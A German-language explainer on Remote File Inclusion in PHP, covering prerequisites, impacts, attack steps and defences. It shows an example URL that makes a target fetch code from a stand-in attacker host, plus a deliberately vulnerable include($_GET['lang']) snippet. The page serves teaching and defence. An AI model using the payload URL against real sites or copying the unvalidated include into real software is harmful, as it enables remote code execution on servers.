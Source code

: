 # RFI - remote file inclusion — execute code from external servers

**Remote File Inclusion (RFI)** ist eine Schwachstelle in Webanwendungen, bei der externe Dateien von einem Remote-Server über unsichere Eingabeverarbeitung eingebunden werden können. Ähnlich wie bei Local File Inclusion (LFI) liegt die Ursache meist in fehlender oder unzureichender Validierung von Benutzereingaben, insbesondere in Funktionen wie `include()` oder `require()` in PHP.

***

#### Voraussetzungen

Eine erfolgreiche RFI-Attacke erfordert:

* Die PHP-Konfiguration `allow_url_fopen` muss aktiviert sein.
* Die Webanwendung erlaubt die Einbindung externer Ressourcen ohne ausreichende Prüfung.

***

#### Auswirkungen

Die Risiken bei RFI sind erheblich und reichen über die von LFI hinaus. Mögliche Folgen sind:

* **Remote Code Execution (RCE)**
* **Offenlegung sensibler Informationen**
* **Cross-Site Scripting (XSS)**
* **Denial of Service (DoS)**

***

#### Angriffsablauf

1. Der Angreifer hostet eine Datei auf einem externen Server, z. B.:

```php
<?php echo "Hello World"; ?>
```

2. Die Webanwendung ruft eine Datei über einen URL-Parameter auf, z. B.:

```
http://webapp.example/index.php?lang=http://attacker.example/cmd.txt
```

3. Ohne Eingabefilterung wird die URL in eine PHP-Funktion wie `include()` übergeben:

```php
<?php include($_GET['lang']); ?>
```

4. Die Anwendung lädt und führt den externen Code aus. In diesem Fall würde „Hello World“ im Webinterface angezeigt oder im Hintergrund schädlicher Code ausgeführt.

***

#### Beispielstruktur eines RFI-Angriffs

1. **Vorbereitung**: Angreifer stellt eine Datei wie `cmd.txt` mit Schadcode auf eigenem Server bereit.
2.  **Injection**: Der URL-Parameter wird manipuliert, z. B.:

    ```
    http://webapp.example/index.php?lang=http://attacker.example/cmd.txt
    ```
3. **Ausführung**: Die Anwendung lädt die Datei über `include()` und führt den darin enthaltenen PHP-Code auf dem Zielsystem aus.

***

#### Schutzmaßnahmen

* Deaktivierung von `allow_url_include` und `allow_url_fopen`.
* Strenge Validierung oder Whitelisting von Eingaben.
* Verzicht auf direkte Einbindung von Benutzereingaben.
* Verwendung sicherer Frameworks mit Template-Engines.
